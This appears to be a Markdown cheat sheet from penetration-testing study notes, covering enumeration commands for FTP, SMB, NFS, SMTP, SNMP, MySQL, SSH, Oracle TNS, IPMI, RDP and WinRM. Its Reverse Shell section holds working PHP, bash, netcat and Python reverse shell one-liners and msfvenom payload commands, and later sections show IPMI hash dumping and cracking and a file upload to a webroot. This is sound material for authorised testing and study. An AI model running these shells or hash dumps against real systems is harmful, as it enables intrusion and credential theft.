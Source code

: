 # 🕵️ Footprinting

This module covers many manual techniques that we can use for manual enumeration, footprinting, and interaction with a wide variety of services.

- [🌐 Certificate Transparency + IP Resolution + Shodan](https://developer.mozilla.org/en-US/docs/Web/Security/Certificate_Transparency)  
- [📶 CIDR Discovery Script](https://docs.infoblox.com/space/netmri760/357468470)  
- [📦 FTP](https://ubuntu.com/server/docs/set-up-an-ftp-server)  
- [🧩 SMB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/f210069c-7086-4dc2-885e-861d837df688)
- [📁 NFS](https://en.wikipedia.org/wiki/Network_File_System)
- [📧 SMTP](https://www.rfc-editor.org/rfc/rfc5321.html)  
- [📨 IMAP/POP3](https://support.mozilla.org/en-US/kb/difference-between-imap-and-pop3)  
- [📡 SNMP](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol)  
- [🛢️ MySQL](https://dev.mysql.com/doc/refman/8.0/en/)  
- [🐚 Reverse Shell](https://github.com/leebaird/discover)  
- [🔐 SSH](https://www.openssh.com/manual.html) 
- [🧰 Oracle‑TNS](https://docs.oracle.com/en/database/)
- [🖥️ IPMI](https://www.intel.com/content/www/us/en/developer/topic-technology/ipmi/ipmi-intelligence.html)
- [🔗 RDP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/ed87a0cb-b228-4dcb-b9f9-d7e4f32e9fcd)  
- [🔗 Windows Remote Management Protocols](https://learn.microsoft.com/en-us/powershell/scripting/wnp/overview-of-windows-remote-management)  
- [📘 Next Steps](https://github.com/RafaHdzCh/pentest-notes/blob/main/docs/02-information-gathering.md)

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/CIDR.sh)

 </details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
sudo nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Show configuration without comments
cat /etc/vsftpd.conf | grep -v "#"

# View restricted users
cat /etc/ftpusers

# Recursively download available FTP files
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# nc
nc -nv <IP> <PORT>

# telnet
telnet <IP> <PORT>

# openssl
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

 </details>

 ---

<details>
<summary><strong>📁 NFS</strong></summary>

**Scan NFS service**

```bash
sudo nmap 10.129.14.128 -p111,2049 -sV -sC
```
```bash
sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049
```

**Service interaction**

Show Available NFS Shares
```bash
showmount -e 10.129.14.128
```

Mounting NFS Share
```bash
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS
tree .
```

List Contents with Usernames, Group Names, UIDs & GUIDs
```bash
ls -l -n mnt/nfs/
```

Unmounting
```bash
sudo umount ./target-NFS
```

 </details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Check smb.conf (without comments and semicolons)
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restart Samba after changes
sudo systemctl restart smbd

# List available shares without credentials
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/samrdump.py)
- [SMBMap](https://github.com/ShawnDEvans/smbmap)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)

```bash
# Install Enum4Linux-ng
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**
```bash
sudo nmap <IP> -sC -sV -p25

sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>


**Scan SMTP service**
```bash
sudo nmap <IP> -sV -p 110,143,993,995 -sC --script pop3-capabilities,imap-capabilities
```

**Service interaction**

```bash
#curl
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

#openssl pop3
openssl s_client -connect <IP>:pop3s

#openssl imap
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SMTP service**

```bash
# snmpwalk
snmpwalk -v2c -c <COMMUNITYSTRING> <IP>

# OneSixtyOne
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>


**Scan MySQL service**

```bash
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Without a password
mysql -u <USER> -h <IP>

# Using a password
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>


**PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>


**Scan with SSH-Audit**
```bash
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
ssh <USER>@<ip>

ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
sudo nmap -p1521 -sV <IP> --open

sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute

```

**Oracle-Tools**

Install Oracle-Tools*

[`Oracle-Tools-setup.sh`](../scripts/Oracle-Tools-setup.sh)

Testing ODAT

```bash
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>


**Scan with Nmap**
```bash
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>🔗 RDP</strong></summary>


**Scan with Nmap**
```bash
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```


**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [INFORMATION GATHERING](./02-information-gathering.md)
